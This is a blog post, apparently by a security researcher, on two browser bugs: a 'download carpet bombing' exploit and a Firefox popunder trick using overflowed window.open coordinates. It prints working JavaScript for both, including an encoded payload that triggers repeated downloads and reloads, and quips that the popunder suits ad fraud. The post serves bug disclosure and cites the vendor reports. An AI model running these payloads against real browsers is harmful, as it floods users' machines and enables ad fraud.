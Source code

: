 ```yaml
---
layout: post
title: Messing Around with Web Browsers (Part II)
---
```

*TL;DR: This would be a complementary entry for my previous writeup of the same title; here I'll be talking about an interesting download carpet bombing exploit alongside some functionality bug(s)....*

Fine, most probably you're not familiar with the term "Download Carpet Bombing", given that it's not such a common type of browser bugs---nor a severe one---so just to relate, that term is basicaly derived from the military term "Carpet Bombing" which is meant to indicate a type of bombing attack where a carpet of explosives is dropped in a progressive manner so that it inflicts damage in every part of a terget area! Whilst in terms of web security, it's meant to indicate a type of attack in which a massive amount of data/files is automatically dropped into a target machine. Take a look at "<a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-2540" target="_blank">CVE-2008-2540</a>" for instance.
<br />

Now that you've got an idea on what this issue is all about, allow me to throw some ugly JS code onto your face:
{% highlight javascript linenos %}
(function() {
    var payload = unescape('%3Cscript%3Evar%20dropper%3Ddocument.createElement(%22iframe%22)%3Bdropper.src%3D%27data%3Ax%2Fx%2Cfoo%27%3Bdocument.documentElement.appendChild(dropper)%3BsetInterval(function()%7Blocation.reload()%7D%2C%205)%3B%3C%2Fscript%3E');
    location.href = 'data:text/html,' + payload;
}());
{% endhighlight %}
***Caution***, I executed that code once, it was terrible! You've been warned. Anyways, the exploit is pretty much self-explanatory (simply, we first create an iframe element pointing to a downloadable resource so the browser initiates a new download then we do a reload over and over again), and we can even amplify its impact using dynamically created iframes! That said, let's move on to the next bug:

This one is just a functionality bug I stumbled upon while messing around a little with `window.open()` on Firefox; it was possible to open up an off-screen browser window (a.k.a popunder) by overflowing the positioning coordinates, just like this:
{% highlight javascript linenos %}
(function() {
    var el = document.createElement('a');
    el.onclick = function() {
        // Notice the value of the 'top' and 'left' params below?
        window.open('about:blank', 'invisible popup', 'top=100000000000, left=100000000000, width=1, height=1');
    };
    el.href = '#';
    el.innerHTML = 'Click Me';
    document.documentElement.appendChild(el);
}());
{% endhighlight %}
Obviously, such bug can come in handy for ad-fraud, where a little popunder window is exploited for popping up ads long after you stop viewing the offending webpage! Easy money, isn't it?!

***References:***<br />
[\*] <a href="https://bugzilla.mozilla.org/show_bug.cgi?id=978847" target="_blank">https://bugzilla.mozilla.org/show_bug.cgi?id=978847</a><br />
[\*] <a href="https://code.google.com/p/chromium/issues/detail?id=343824" target="_blank">https://code.google.com/p/chromium/issues/detail?id=343824</a> 
